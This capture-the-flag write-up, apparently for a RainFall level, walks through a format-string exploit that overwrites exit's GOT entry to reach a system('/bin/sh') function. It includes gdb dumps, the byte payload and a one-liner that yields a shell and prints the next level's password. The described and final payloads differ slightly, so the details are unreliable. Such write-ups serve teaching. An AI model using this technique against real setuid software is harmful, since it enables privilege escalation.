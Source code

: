 1. cf `source.c` => Very close to level 3, but now right after printf(), the exit(1) function is called to quit the program.

2. `info functions` => we see that there is a `o()` function. `disas o` => it calls `system("/bin/sh")`

3. here we have our stack at time of printf() call :

    ![Stack](Ressources/StackStateLevel5png.png)


    At first I thought to modify the address of the next instruction at tiem of printf() call, with the address of o().
    I will explian how I proceeded, explain why it does not work, and make a very small change to make it work :


4. Let's find the address of o() :
`disas o` => **0x080484a4** this is the address we will have to record in replacement of the address stored as next instruciton at time of printf() call ($eip of n() function)

5. Let 's find the address of $eip at which we should record this value:

    - set a breakpoint at printf call :

    ```
    Breakpoint 11, 0x080484f3 in n ()
    (gdb) disas
    Dump of assembler code for function n:
    0x080484c2 <+0>:	push   ebp
    0x080484c3 <+1>:	mov    ebp,esp
    0x080484c5 <+3>:	sub    esp,0x218
    0x080484cb <+9>:	mov    eax,ds:0x8049848
    0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
    0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
    0x080484dc <+26>:	lea    eax,[ebp-0x208]
    0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
    0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
    0x080484ea <+40>:	lea    eax,[ebp-0x208]
    0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
    => 0x080484f3 <+49>:	call   0x8048380 <printf@plt>
    0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
    0x080484ff <+61>:	call   0x80483d0 <exit@plt>
    End of assembler dump.
    ```

    - then step into printf : `si` This will have push $eip on the stack. Now we can llok at the value stored on top of the stack (at $esp), and it should be the value of the next instruction following `printf()` call (see dump above : **0x080484f8**)

    ```
    Dump of assembler code for function printf@plt:
    => 0x08048380 <+0>:	jmp    DWORD PTR ds:0x8049824
    0x08048386 <+6>:	push   0x0
    0x0804838b <+11>:	jmp    0x8048370
    End of assembler dump.
    (gdb) i r $esp
    esp            0xbffff4cc	0xbffff4cc
    (gdb) x/4wx 0xbffff4cc
    0xbffff4cc:	0x080484f8	0xbffff4e0	0x00000200	0xb7fd1ac0
    (gdb)
    ```

    This is exactly what we were expecting!
    So the address to modify on the stack is : **0xbffff4cc** : this is the place where $eip is going to recover the next instruction when exiting printf!

    6. Defining the payload:

    - As the number to record (which will be the number of bytes printed out by printf) is too high **0x080484f8**, we will split it into two short ints that we will record on two consecutive two-bytes address location : **0x0804 = 2052** at **0xbffff4ce** and **0x84f8 = 33956** at **0xbffff4cc**.

    Recall : 

    ![Stack](Ressources/numberAtAddress.png)


    - SO the payload is:
        * \xce\xf4\xff\xbf      --> 4 bytes
        * \xcc\xf4\xff\xbf      --> 4 bytes
        * %2044d                --> 2052 - 8 bytes already written
        * %4$hn                 --> `hn` is for `half-word` meaning we are going to write a short int on 2 bytes of memory. The first address written in our buffer is at 4 * 4 = 16 bytes from our printf argument (cf first diagram above)
        * %31904d               --> 33956 - 2052 bytes already written
        * 5$hn


    7. When we build the payload and cat it into the program, as we follow along with gdb, we can see that it works => it calls the `o()` function. But via gdb, the `setuid` bit is off, and a command is executed with the permission of the user who runs the program, not with the permissions of the one owning it. So we just have to launch it outside gdb. But now it does not work... `Illegal instruction`. Why is that?


    8. gdb loads a couple of variables onto the stack => teh stackframe is not at the same level as when running outside of gdb! offsets, memory value in data segment are the same, but not hard-coded value on the stack! So the address of o() is the same, but not the one where the next instruciton following printf() call is stored! Hence it does not work. There is probably a way to discover the size of variables loaded into the stack by gdb, but here there is a better way.


    9. In n() memory dump above, we can see that following printf, the `exit()@plt` function is called. plt stands for `Procedure Linkage Table`. The use of the plt happens when there is a dynamic linkage to a library. The compiler does not know until runtime where the function to be called is located. So teh program says "go get this function in the table and put its address here".

        ```
            0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
            0x080484ff <+61>:	call   0x80483d0 <exit@plt>
        End of assembler dump.
        (gdb) disas 0x80483d0
        Dump of assembler code for function exit@plt:
            0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
            0x080483d6 <+6>:	push   0x28
            0x080483db <+11>:	jmp    0x8048370
        End of assembler dump.
        (gdb) x/s 0x8049838
            0x8049838 <exit@got.plt>:	 "\326\203\004\b\346\203\004\b"
            (gdb)
        ```

        **got** stands for "Global offset table"

        So here our aime is to jump at `o()` function instead of at the plt inside the `exit@plt` call!

        --> We have to write the exact same number (the start of the o() function), but at a difference memory location ; **0x08049838**

    10. Final payload:

        * \x3a\x98\x04\x08      --> 4 bytes
        * \x38\x98\x04\x08      --> 4 bytes
        * %2044d                --> 2052 - 8 bytes already written
        * %4$hn                 --> `hn` is for `half-word` meaning we are going to write a short int on 2 bytes of memory. The first address written in our buffer is at 4 * 4 = 16 bytes from our printf argument (cf first diagram above)
        * %31904d               --> 33956 - 2052 bytes already written
        * 5$hn


    ```
    level5@RainFall:~$ (python -c 'print("\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044d%5$hn%31904d%5$hn")') > /tmp/exploit5
    level5@RainFall:~$ cat /tmp/exploit5 - | ./level5
    ````

    output:

    ```
                                                                                                                                                                                                                                                                                                                 -1208149312
    cat /home/user/level6/.pass
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
    ```